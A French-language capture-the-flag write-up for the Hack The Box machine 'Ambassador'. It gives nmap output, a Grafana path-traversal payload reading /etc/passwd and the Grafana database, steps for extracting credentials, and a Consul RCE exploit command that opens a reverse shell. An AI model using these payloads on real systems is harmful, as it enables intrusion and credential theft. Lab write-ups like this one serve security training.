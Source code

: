 # Ambassador - Easy

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-16 21:13 EST                                                                                                                               
Nmap scan report for 10.10.11.183                                                                                                                                                             
Host is up (0.071s latency).                                                                                                                                                                  
Not shown: 996 closed tcp ports (conn-refused)                                                                                                                                                
PORT     STATE SERVICE VERSION                                                                                                                                                                
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)                                                                                                           
| ssh-hostkey:                                                                                                                                                                                
|   3072 29:dd:8e:d7:17:1e:8e:30:90:87:3c:c6:51:00:7c:75 (RSA)                                                                                                                                
|   256 80:a4:c5:2e:9a:b1:ec:da:27:64:39:a4:08:97:3b:ef (ECDSA)                                                                                                                               
|_  256 f5:90:ba:7d:ed:55:cb:70:07:f2:bb:c8:91:93:1b:f6 (ED25519)                                                                                                                             
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))                                                                                                                                         
|_http-server-header: Apache/2.4.41 (Ubuntu)                                                                                                                                                  
|_http-generator: Hugo 0.94.2                                                                                                                                                                 
|_http-title: Ambassador Development Server                                                                                                                                                   
3000/tcp open  ppp?                                                                                                                                                                           
| fingerprint-strings:                                                                                                                                                                        
|   FourOhFourRequest:                                                                                                                                                                        
|     HTTP/1.0 302 Found                                                                                                                                                                      
|     Cache-Control: no-cache                                                                                                                                                                 
|     Content-Type: text/html; charset=utf-8                                                                                                                                                  
|     Expires: -1                                                                                                                                                                             
|     Location: /login                                                                                                                                                                        
|     Pragma: no-cache                                                                                                                                                                        
|     Set-Cookie: redirect_to=%2Fnice%2520ports%252C%2FTri%256Eity.txt%252ebak; Path=/; HttpOnly; SameSite=Lax                                                                                
|     X-Content-Type-Options: nosniff                                                                                                                                                         
|     X-Frame-Options: deny                                                                                                                                                                   
|     X-Xss-Protection: 1; mode=block                                                                                                                                                         
|     Date: Mon, 16 Jan 2023 20:14:10 GMT                                                                                                                                                     
|     Content-Length: 29                                                                                                                                                                      
|     href="/login">Found</a>.                                                                                                                                                                
|   GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie:                                                                                            
|     HTTP/1.1 400 Bad Request                                                                                                                                                                
|     Content-Type: text/plain; charset=utf-8                                                                                                                                                 
|     Connection: close
|     Request                                                                                                                                                                         [50/114]
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Mon, 16 Jan 2023 20:13:38 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Mon, 16 Jan 2023 20:13:43 GMT
|_    Content-Length: 0
3306/tcp open  mysql   MySQL 8.0.30-0ubuntu0.20.04.2
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.30-0ubuntu0.20.04.2
|   Thread ID: 10
|   Capabilities flags: 65535
|   Some Capabilities: LongPassword, IgnoreSigpipes, SupportsTransactions, SupportsCompression, ConnectWithDatabase, FoundRows, SwitchToSSLAfterHandshake, Speaks41ProtocolNew, LongColumnFlag
, Speaks41ProtocolOld, ODBCClient, DontAllowDatabaseTableColumn, Support41Auth, SupportsLoadDataLocal, InteractiveClient, IgnoreSpaceBeforeParenthesis, SupportsMultipleStatments, SupportsAut
hPlugins, SupportsMultipleResults                                                                                                                                                             
|   Status: Autocommit                                                                                                                                                                        
|   Salt: c\x1A\x0Dzo\x1Fu=@0)\x14h\x0DX{N\x128"                                                                                                                                              
|_  Auth Plugin Name: caching_sha2_password
```

On va donc visiter en premier le site web, il mentionne que il faut se connecter en tant de developer et que devops va nous donner le mdp, peut être un indice

Après recherche avec gobuster on trouve le dossier /images sur le site qui contient un “fond d’écran”, peut être de la stégano ?

Rien d’intéressant de trouvé de ce coté là donc on s’intéresse au port 3000 qui nous redirige vers une page de login. Les credentials par défaut ne fonctionnent pas mais la version (8.2.0) a une CVE “**Unauthorized arbitrary file reading vulnerability”** 

[https://github.com/pedrohavay/exploit-grafana-CVE-2021-43798](https://github.com/pedrohavay/exploit-grafana-CVE-2021-43798)

Test de l’exploit :

Après avoir créé une liste avec seulement le domaine du serveur l’exploit fonctionne et nous donne ceci:

```bash
[i] Target: http://10.10.11.183:3000

[!] Payload "http://10.10.11.183:3000/public/plugins/alertlist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd" works.

[i] Analysing files...

[i] File "/conf/defaults.ini" found in server.
[*] File saved in "./http_10_10_11_183_3000/defaults.ini".

[i] File "/etc/grafana/grafana.ini" found in server.
[*] File saved in "./http_10_10_11_183_3000/grafana.ini".

[i] File "/etc/passwd" found in server.
[*] File saved in "./http_10_10_11_183_3000/passwd".

[i] File "/var/lib/grafana/grafana.db" found in server.
[*] File saved in "./http_10_10_11_183_3000/grafana.db".

[i] File "/proc/self/cmdline" found in server.
[*] File saved in "./http_10_10_11_183_3000/cmdline".

? Do you want to try to extract the passwords from the data source?  Yes

[i] Secret Key: SW2YcwTIb9zpOOhoPsMm

[*] Bye Bye!
```

Grâce à l’obtention de ces fichiers on trouve le mdp admin grafana dans les fichiers de config

Dans le panel Grafana on apprend que c’est relié à une db mysql sous l’user Grafana sans mdp

Rien de trouvé de particulier sur le panel grafana donc retour au fichier .db

Dans la table data source on trouve un mdp avec le mdp de cet user grafana

On essaye alors d’abord de se connecter via ssh, ça ne marche pas donc on essaye de se connecter via mysql en remote

On trouve alors le mdp de l’user developer en base64 dans la table WhackyWidget

Ceci nous donne ce mot de passe en clair qui permet d’SSH:

Dans le home on remarque un dossier pour gitconfig qui nous indique une application, whackywidget dans le répertoire /opt

Pas de droit de sudo ni le droit suid sur les executables, pas moyen d’exploiter le venv alors recherche de vulnérabilité consul qui est dans le même dossier 

[https://github.com/GatoGamer1155/Hashicorp-Consul-RCE-via-API](https://github.com/GatoGamer1155/Hashicorp-Consul-RCE-via-API)

Il est nécessaire de récupérer le token via l’historique git (git log) et chercher dans le dernier commit

Il suffit alors d’utiliser l’exploit

```bash
python3 exploit.py --rhost 127.0.0.1 --rport 8500 --lhost IP --lport PORT b*******-1d81-d62b-24b5-39540ee469b5
```